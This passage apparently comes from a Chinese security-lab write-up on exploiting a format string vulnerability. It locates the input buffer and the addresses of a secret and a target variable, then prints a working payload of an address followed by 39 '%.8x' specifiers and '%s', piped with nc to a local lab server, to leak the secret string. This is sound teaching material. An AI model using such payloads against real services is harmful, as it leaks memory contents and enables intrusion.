 ![image-20220526103228058](README.assets/image-20220526103228058.png)

图中44434241对应ABCD 是输入字符串的起始地址

其中secret地址为0x08048740，后续用

target地址0x0804a02c，后续用

## （2）获得 heap 上的 secret 变量的值

变量secret是一个字符串，因此使用格式化字符串“%s”并指定变量地址进行输出。在打印内存数据中已知在va_list指针移动至输入字符串起始地址前，需要使用39个格式化字符串。

**根据（1）中图的信息，可以得到secret地址为 0x08048740。**

因此将格式化字符串“%s”对应的指针地址即输入字符串起始地址填充为secret地址即可。 故构造格式化字符串如下：

```bash
echo $(printf "\x40\x87\x04\x08")%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%s > msg

cat msg | nc 127.0.0.1 9090 
```

执行命令，观察到成功输出secret字符串，如下图：
